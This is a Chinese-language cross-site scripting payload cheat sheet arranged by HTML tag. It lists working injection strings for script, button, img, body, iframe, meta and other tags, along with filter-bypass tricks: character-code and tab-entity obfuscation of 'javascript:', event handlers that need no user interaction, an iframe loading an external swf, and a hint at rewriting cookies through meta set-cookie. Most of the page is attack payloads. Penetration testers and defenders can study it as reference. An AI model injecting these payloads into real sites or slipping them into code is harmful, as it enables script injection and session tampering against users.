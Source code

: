 `<script>alert(/3/)</script>`//可以用"/"来代替单引号和双引号 
 
`<script>alert(String.fromCharCode(49))</script>` //我们还可以用char
 
`<script>alert(/7/.source)</script>` // ".source"不会影响alert(7)的执行
 
`<script>setTimeout('alert(1)',0)</script>` //如果输出是在setTimeout里，我们依然可以直接执行alert(1)
#### button 标签
1. event 事件实现 js 调用：
`<button/onclick=alert(1) >M</button>`
2. html5 的新姿势：
需要交互的版本：
`<form><button formaction=javascript&colon;alert(1)>M`

不需要交互的版本：
`<button onfocus=alert(1) autofocus>`
#### p 标签
1. 如果发现变量输出在 p 标签中，只要能跳出""就足够了：
`<p/onmouseover=javascript:alert(1); >M</p>`
#### img 标签
有些姿势是因为浏览器的不同而不能成功执行的。
只在 chrome 下有效：
`<img src ?itworksonchrome?\/onerror = alert(1)>`  //只在chrome下有效
 
`<img/src/onerror=alert(1)>`  //只在chrome下有效
其他：

`<img src=x onerror=alert(1)>` 
 
`<img src="x:kcf" onerror="alert(1)">`
以下全是通过事件来调用 js 的，可以利用上面给出的列表自己组合。

#### body 标签
通过 event 事件来调用 js
`<body onload=alert(1)> `
 
`<body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>`
#### var 标签
`<var onmouseover="prompt(1)">M</var>`
#### div 标签
`<div/onmouseover='alert(1)'>X`
 
`<div style="position:absolute;top:0;left:0;width:100%;height:100%" onclick="alert(52)">`
#### iframe 标签
有时候我们可以通过实体编码、换行和 Tab 字符来 bypass。我们还可以通过事先在 swf 文件中插入我们的 xss code，然后通过 src 属性来调用。不过关于 flash，只有在 crossdomain.xml 文件中，allow-access-from domain="*" 允许从外部调用 swf 时，才可以通过 flash 来事先 xss attack。
下面的&Tab;为 tab 字符
`<iframe  src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>` 
`<iframe SRC="http://0x.lv/xss.swf"></iframe>` 
`<IFRAME SRC="javascript:alert(1);"></IFRAME>` 
`<iframe/onload=alert(1)></iframe>`
#### meta 标签
测试时发现昵称，文章标题跑到 meta 标签中，那么只需要跳出当前属性再添加http-equiv="refresh"，就可以构造一个有效地 xss payload。还有一些猥琐的思路，就是通过给http-equiv设置set-cookie，进一步重新设置 cookie 来干一些猥琐的事情。
`<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>`
`<meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">`
#### object 标签
和 a 标签的 href 属性的玩法是一样的，优点是无需交互。